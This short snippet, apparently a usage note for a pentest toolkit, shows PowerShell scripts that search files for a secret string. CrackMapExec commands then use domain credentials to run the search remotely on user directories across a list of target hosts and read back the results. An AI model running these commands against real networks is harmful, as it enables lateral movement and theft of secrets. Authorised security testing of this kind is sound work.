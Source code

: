 cd c:\path\to\crawl\windows
.\crawl.ps1 ..\path\to > out.log
.\grep.ps1 ..\path\to s3cr3t

cme smb -d dom -u adm -p pas -X '.\grep.ps1 c:\users s3cr3t > c:\grep.log' targets.txt
sleep 3600
cme smb -d dom -u adm -p pas -x 'type c:\grep.log' targets.txt
